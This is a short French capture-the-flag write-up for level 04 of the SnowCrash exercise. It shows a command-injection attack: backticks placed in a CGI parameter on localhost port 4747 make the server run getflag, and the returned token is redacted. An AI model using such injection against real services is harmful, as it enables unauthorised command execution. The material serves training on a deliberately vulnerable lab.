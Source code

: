 # Level04

Nous remarquons qu'un CGI est présent sur le port 4747

Le serveur prend un parametre X qui execute une commande non sécurisé, il suffit de lui injecter
des backsticks pour executer une commande de notre choix:

```bash
level04@SnowCrash:~$ curl localhost:4747?x=\`getflag\`
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
```
